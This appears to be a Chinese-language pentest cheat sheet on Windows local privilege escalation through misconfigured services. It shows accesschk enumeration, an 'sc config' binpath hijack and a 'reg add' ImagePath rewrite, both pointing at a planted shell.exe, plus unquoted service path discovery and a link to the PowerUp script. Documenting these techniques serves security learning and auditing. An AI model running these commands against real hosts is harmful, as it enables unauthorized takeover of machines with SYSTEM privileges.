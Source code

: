 # 利用系统服务提权

#### 提权原理

路径：`\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\`中 imagePath键指向该系统所启动的二进制程序，Window服务会操作系统启动时运行。

#### 工具accesschk

https://learn.microsoft.com/zh-cn/sysinternals/downloads/accesschk

用于枚举目标主机上存在的权限缺陷的系统服务

#### 利用不安全的服务权限脆弱

**原理：**ACL配置服务疏忽，使低权限用户对高权限下运行的系统服务拥有更改服务配置的权限，即(SERVICE\_QUERY\_CONFIG、SERVICE\_ALL\_ACESS)

低权限用户检查`"Authenticated Users"`和`"INTERACTIVE"`组对系统服务的权限，前者为经过身份严重的用户，后者为交互式用户组

```
accesschk.exe -uwcqv "Authenticated Users" *
```

假设 AuthenticatedUsers组对InsproSvc具有查询服务配置权限，则可以执行

```
sc config insproSvc binpath= "cmd.exe /k C:\Users\Public\shell.exe"
```

#### 利用服务注册表权限

**原理：**注册表ACL配置错误，导致低权限用户对服务的注册表拥有写入权限

低权限用户检查"Authenticated Users"具有写入权限的服务注册表

```
accesschk.exe /accepteula -uvwqk "Authenticated Users" HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
```

假设Authenticated Users组对RegSvc服务的注册表拥有完全控制权限

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RegSvc /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe" /k C:\Users\Public\shell.exe
```

#### 利用服务路径权限可控

**原理：**主机用户存在错误配置或操作，导致低权限用户可以替换服务调用的二进制文件

低权限用户检查InsexeSvc服务是否具有写入权限

```
accesschk.exe /accepteula -quv "Authenticated Users" "C:\Program Files\Insecure Executables\"
```

#### 利用未引入的服务路径提权(Unquoted Service Path)

**原理：**如果完整路径中包含空格且未有效包含在引号中，则对该路径的每个空格，Windows会按照从左到右的顺序尝试寻找并执行与空格前的名字相匹配的程序。

枚举主机上有漏洞的服务

```
wmic service get DisplayName,PathName,StartMode|findstr /i /v "C:\Windows\\" | findstr/i /v """
```

#### 一键利用脚本：

https://github.com/PowerShellMafia/PowerSploit/blame/master/Privesc/PowerUp.ps1
